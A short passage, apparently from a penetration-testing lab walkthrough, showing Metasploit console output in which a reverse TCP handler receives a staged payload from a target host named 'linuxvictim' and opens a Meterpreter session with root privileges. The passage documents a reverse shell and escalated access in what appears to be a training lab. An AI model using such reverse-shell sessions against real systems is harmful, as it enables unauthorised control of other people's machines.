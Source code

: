 We can go back to our meterpreter session with root privileges:
```bash
msf5 exploit(multi/handler) > run
[*] Started reverse TCP handler on 192.168.119.120:1337
[*] Sending stage (3012516 bytes) to 192.168.120.46
[*] Meterpreter session 9 opened (192.168.119.120:1337 -> 192.168.120.46:39464) at 2020-07-29 11:16:07 -0400
meterpreter > getuid
Server username: no-user @ linuxvictim (uid=0, gid=0, euid=0, egid=0)
```

